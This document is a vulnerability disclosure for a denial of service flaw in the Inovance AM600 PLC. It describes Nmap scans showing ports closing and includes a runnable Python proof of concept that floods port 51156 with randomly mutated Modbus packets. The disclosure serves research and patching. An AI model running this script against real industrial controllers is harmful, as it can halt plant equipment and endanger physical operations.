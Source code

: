 # Summary
There is a denial of service vulnerability in port 51156 of Inovance AM600 PLC.An attacker can send a large number of modbus protocol data packets to cause the PLC to crash.

This "crash" did not cause the device to crash, but closed the originally open port.
# Details
Connectivity test of the device:
![image](https://github.com/user-attachments/assets/ed1c3c11-316d-42c0-b5f5-2c14a7f6375f)

Nmap scans device ports:![image](https://github.com/user-attachments/assets/4076b32b-0c57-4e88-b15e-afe1cba75581)

You can see that port 51156 is open.

Then we run the script:![image](https://github.com/user-attachments/assets/1a9d6314-63ff-4557-af09-5ef130acee8f)



After a while, we scan the port with Nmap and find:![image](https://github.com/user-attachments/assets/4b2955f5-8592-476c-a272-28b05e5e3779)



Of the **7** ports that were originally open, only **3** are left now, and **mbap port 502** has also been closed.

# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def Change(data: bytes):
    l = len(data)
    import random
    pos = random.randint(0, l - 1)
    Fs = [F1, F2, F3, F4]
    f = random.randint(0, 3)
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "00 01 00 00 00 06 01 03 00 00 00 0a"
ori = bytes.fromhex(ori.replace(" ", ""))
queue = []

queue.append(ori)

MAX_LEN = 65536
cur = 0
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(("192.168.1.88",51156))
            s.send(now)
            s.close()
            import time
            # time.sleep(0.1)
        except:
            print()
            print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
            
    import time
    cur = (cur + 1) % MAX_LEN
```
# Discoverer
https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)
